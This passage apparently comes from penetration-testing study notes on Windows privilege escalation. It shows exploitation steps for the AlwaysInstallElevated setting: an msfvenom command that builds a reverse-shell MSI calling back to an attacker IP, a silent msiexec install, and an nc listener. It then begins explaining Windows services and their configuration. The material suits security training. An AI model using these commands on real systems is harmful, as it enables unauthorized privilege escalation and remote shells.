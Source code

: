  To be able to exploit this vulnerability, both should be set. Otherwise, exploitation will not be possible. If these are set, you can generate a malicious .msi file using msfvenom, as seen below:

**Exploitation Steps:**

1. **Generate Malicious .msi:**
    
    ```bash
    msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=53 -f msi -o evil.msi
    ```
    
    - (Or use a custom payload like adding a user to **Administrators**.)
2. **Upload & Execute:**
    
    ```powershell
    msiexec /quiet /qn /i C:\Temp\evil.msi
    ```
    
    - **`/quiet`** = No UI | **`/qn`** = No prompts.
3. **Receive Shell (or Check for New Admin User):**
    - If using a reverse shell:
        
        ```bash
        nc -lvnp 53
        ```
        

## Abusing Service Misconfigurations

**Windows Services:** 

Windows **services** are background processes that run independently of user sessions, performing system tasks like:

- **Hosting applications** (e.g., web servers, databases).
- **Managing hardware** (e.g., printer spooler).
- **Automating tasks** (e.g., scheduled backups, updates).

**Key Characteristics**

1. **Managed by SCM**
    - The **Service Control Manager (SCM)** handles service lifecycle (start/stop/configure).
    - Accessed via **`sc.exe`**, PowerShell (**`Get-Service`**), or **`services.msc`**.
2. **Run Under Specific Accounts**
    - **LocalSystem** (highest privileges), **NetworkService**, **LocalService**, or custom users.
3. **Startup Types**
    - **Automatic**: Starts at boot.
    - **Manual**: Starts on-demand.
    - **Disabled**: Cannot be started.
4. **Dependencies & Triggers**
    - Some services start only when others are running (e.g., DHCP client depends on TCP/IP).
5. **Registry & Executables**
    - Configs stored in **`HKLM\SYSTEM\CurrentControlSet\Services\<ServiceName>`**.
    - Each service points to an executable (**`BINARY_PATH_NAME`**).

Here is an example of the apphostsvc service configuration:
